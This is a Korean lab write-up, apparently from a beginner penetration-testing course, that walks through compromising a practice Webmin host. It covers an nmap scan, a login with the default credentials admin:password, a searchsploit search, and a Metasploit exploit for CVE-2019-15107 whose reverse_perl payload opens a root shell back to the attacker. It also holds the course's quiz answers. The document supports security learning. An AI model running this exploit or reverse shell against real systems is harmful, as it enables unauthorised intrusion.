




# 레드라쿤 모의해킹 기초 실습방 (모의해킹 기초)
## Task5 (강의 없이 진행)

# 정보 수집
- nmap
nmap을 SYN 스캔으로 너무 빠른 속도로 진행하거나 완벽하게 SYN 스캔을 적용하지 않은 스캐너를 사용할 경우 대상 호스트나 네트워크 장비들의 자원을 소모하는 DoS 공격으로 이어질 수 있으므로 조심스럽게 nmap 스캐닝을 진행한다.

```
# CONNECT scan 방식으로 열려있는 top ports 1000개를 스캔한다.
┌──(kali㉿kali)-[~/tryhackme/RemoteWebAdm]
└─$ nmap --top-ports 1000 -n --open 10.10.82.206 -oA tcp1000
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 17:39 KST
Nmap scan report for 10.10.82.206
Host is up (0.32s latency).
Not shown: 610 closed tcp ports (conn-refused), 388 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
22/tcp    open  ssh
10000/tcp open  snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 62.28 seconds


# network service banner grabbing & defautl nmap script를 이용하여 자세한 정보 수
┌──(kali㉿kali)-[~/tryhackme/RemoteWebAdm]             
└─$ nmap -p 22,10000 -sV -sC 10.10.82.206 -oA tcpDetailed              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 17:21 KST
Nmap scan report for 10.10.214.47
Host is up (0.34s latency).

PORT      STATE SERVICE VERSION                                               
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)                                                                         
| ssh-hostkey:                                                                
|   2048 c8:27:95:ed:47:88:cb:69:fa:2e:19:c7:03:5f:b3:26 (RSA)
|   256 96:8e:85:5b:f6:bc:43:76:52:24:dd:72:4c:65:27:79 (ECDSA)           
|_  256 22:87:05:24:cb:7a:3f:b2:a4:5e:e2:88:9a:69:b2:af (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)                     
| http-robots.txt: 1 disallowed entry                                         
|_/                                                                           
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel      
                                                                              
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 116.42 seconds
```
22 - ssh:openssh 7.6p1
10000 - http:miniserv 1.890

```
#1 처음 정보 수집과 포트스캐닝을 하기 위해서 어떤 프로그램을 사용했나요? 
nmap

#2 발견한 포트를 모두 쉼표를 사용해 적어주세요. (예시. 80,445,3389)
22,10000

#3 Nmap의 서비스 배너 그래빙 (Network Service Banner Grabbing) 플래그는 뭐였나요? (예. -nT) 
-sV
```

## Web(10000)

이렇게 서버가 죽게 된다. 10000포트에서는 MiniServ가 실행되고 있다고 했지만 들어가보니 연결에 실패했다는 결과가 나와서 대상 호스트의 서버를 끄고 다시 실행한다.
이전에 공부하던 랩에서는 이러한 현상이 없었지만, 처음 겪어보는 일이라 앞으로 조금 더 조심해서 포트스캐닝을 해야겠다.

이전에 포트스캐닝을 한 결과가 있으니 이제는 10000포트를 이용해 웹사이트에 접속해본다.
`http-robots.txt` 에 관한 정보도 얻었는데 직접 접속하여 어떤 메시지를 알려주는지 확인한다.


Webmin에 대한 로그인 창이 뜬다. 
우선 정보수집때 발견했던 `/robots.txt`를 확인한다.
 
모든 디렉터리가 Disallow다. 하지만 추가적인 정보수집을 위해서 그냥 파고든다.

다음 작업은 해봐야할것은 구글에서 default login credential에 대해서 검색해서 서칭해보는 것이다. 서칭결과를 토대로 `root:password` 를 시도해봤지만 실패 두번째 시도로 유저이름을 유추하여 `admin:password`을 한 결과 로그인을 성공했다.

# 취약점 진단
searchsploit 툴을 이용하여 취약점 진단을 한다
```
┌──(kali㉿kali)-[~/tryhackme/RemoteWebAdm]
└─$ searchsploit miniserv 1.890
Exploits: No Results
Shellcodes: No Results
                                                                                                                                                             
┌──(kali㉿kali)-[~/tryhackme/RemoteWebAdm]
└─$ searchsploit miniserv      
Exploits: No Results
Shellcodes: No Results
```
miniserv에서 나온 공개 취약점은 없지만 방문했을때 webmin이 떳던 것을 이용하여 다시 검색을 해본다.
```
┌──(kali㉿kali)-[~/tryhackme/RemoteWebAdm]
└─$ searchsploit webmin      
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
DansGuardian Webmin Module 0.x - 'edit.cgi' Directory Traversal                                                            | cgi/webapps/23535.txt
phpMyWebmin 1.0 - 'target' Remote File Inclusion                                                                           | php/webapps/2462.txt
phpMyWebmin 1.0 - 'window.php' Remote File Inclusion                                                                       | php/webapps/2451.txt
Webmin - Brute Force / Command Execution                                                                                   | multiple/remote/705.pl
webmin 0.91 - Directory Traversal                                                                                          | cgi/remote/21183.txt
Webmin 0.9x / Usermin 0.9x/1.0 - Access Session ID Spoofing                                                                | linux/remote/22275.pl
Webmin 0.x - 'RPC' Privilege Escalation                                                                                    | linux/remote/21765.pl
Webmin 0.x - Code Input Validation                                                                                         | linux/local/21348.txt
Webmin 1.5 - Brute Force / Command Execution                                                                               | multiple/remote/746.pl
Webmin 1.5 - Web Brute Force (CGI)                                                                                         | multiple/remote/745.pl
Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)                                                      | unix/remote/21851.rb
Webmin 1.850 - Multiple Vulnerabilities                                                                                    | cgi/webapps/42989.txt
Webmin 1.900 - Remote Command Execution (Metasploit)                                                                       | cgi/remote/46201.rb
Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)                                                     | linux/remote/46984.rb
Webmin 1.920 - Remote Code Execution                                                                                       | linux/webapps/47293.sh
Webmin 1.920 - Unauthenticated Remote Code Execution (Metasploit)                                                          | linux/remote/47230.rb
Webmin 1.962 - 'Package Updates' Escape Bypass RCE (Metasploit)                                                            | linux/webapps/49318.rb
Webmin 1.973 - 'run.cgi' Cross-Site Request Forgery (CSRF)                                                                 | linux/webapps/50144.py
Webmin 1.973 - 'save_user.cgi' Cross-Site Request Forgery (CSRF)                                                           | linux/webapps/50126.py
Webmin 1.984 - Remote Code Execution (Authenticated)                                                                       | linux/webapps/50809.py
Webmin 1.996 - Remote Code Execution (RCE) (Authenticated)                                                                 | linux/webapps/50998.py
Webmin 1.x - HTML Email Command Execution                                                                                  | cgi/webapps/24574.txt
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure                                                               | multiple/remote/1997.php
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure                                                               | multiple/remote/2017.pl
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit)                                                              | linux/webapps/47330.rb
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
익스플로잇 할 수 있는 많은 취약점 목록이 나열되었다. 우리가 아는 버전은 webmin 1.890인데, exploit-db 사이트에 직접 접속해 사용할 수 있는 익스플로잇을 확인해보겠다.


`Webmin 1.920 - Unauthenticated Remote Code Execution (Metasploit)` 이 취약점이 사용하기 적합한 것 같아서 들어가서 코드를 확인해본다.
CVE-2019-15107 코드를 가지고 있으며 공개 취약점으로 활용할 수 있을 것같다.
```
This module exploits a backdoor in Webmin versions 1.890 through 1.920.
        Only the SourceForge downloads were backdoored, but they are listed as
        official downloads on the project's site.
```
코드 설명을 보니 1.890 버전에서 1.920 사이의 버전은 모두 사용할 수 있다고 한다.

```
# 솔루션이나 서비스들의 공개적인 취약점과 익스플로잇을 찾아주는 명령어는 뭐였나요?
searchsploit

#발견한 취약점과, 사용한 깃허브 리포의 이름이였던, CVE의 전체 이름은 뭔가요? (예시. CVE-2020-1337)
CVE-2019-15107
```
# 초기 침투
metasploit을 하기 위해서 msfconsole 툴을 이용하여 익스플로잇을 진행한다.
```
┌──(kali㉿kali)-[~/tryhackme/RemoteWebAdm]
└─$ msfconsole

msf6 > search cve-2019-15107

Matching Modules
================

   #  Name                                     Disclosure Date  Rank       Check  Description
   -  ----                                     ---------------  ----       -----  -----------
   0  exploit/linux/http/webmin_backdoor       2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
   1    \_ target: Automatic (Unix In-Memory)  .                .          .      .
   2    \_ target: Automatic (Linux Dropper)   .                .          .      .

msf6 > use 0

msf6 exploit(linux/http/webmin_backdoor) > options                                                                                                     
                                                                                                                                                             
Module options (exploit/linux/http/webmin_backdoor):

   Name       Current Setting  Required  Description        
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      10000            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path to Webmin
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen
                                       on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)


msf6 exploit(linux/http/webmin_backdoor) > set rhosts <대상 호스트 IP>
rhosts => <대상 호스트 IP>
msf6 exploit(linux/http/webmin_backdoor) > set lhost <공격자 IP>
lhost => <공격자 IP>

msf6 exploit(linux/http/webmin_backdoor) > exploit

[*] Started reverse TCP handler on <공격자 IP>:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (<공격자 IP>:4444 -> <대상 호스트 IP>:60060) at 2024-05-14 18:46:13 +0900

id
uid=0(root) gid=0(root) groups=0(root)
hostname
honeyvoice-remotewebadm
ip a         
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:9c:e8:02:ef:2b brd ff:ff:ff:ff:ff:ff
    inet 10.10.228.45/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3423sec preferred_lft 3423sec
    inet6 fe80::9c:e8ff:fe02:ef2b/64 scope link 
       valid_lft forever preferred_lft forever

find / -name "flag.txt"
/root/flag.txt
cat /root/flag.txt
GROOT{숨김}

```
리버스 쉘을 획득한 후 `id`를 확인하니 이미 관리자 계정으로 리버스 쉘을 받았기 때문에 권한 상승은 진행하지 않는다.
추가적으로 flag를 획득하기 위해서 `find` 명령어를 이용하여 flag 값 획득

```
# root 권한을 획득한 뒤, /root 디렉토리에 있는 플래그는 뭐였나요? 
GROOT{숨김}

# (보너스!!) Webmin의 계정 이름, 비밀번호는 뭐였을까요? 계정이름:비밀번호 형식으로 적어주세요. (예시. root:answer) 
admin:password
```

# 취약점
1. webmin의 default login credentials
2. cve-2019-15107 공개 취약점

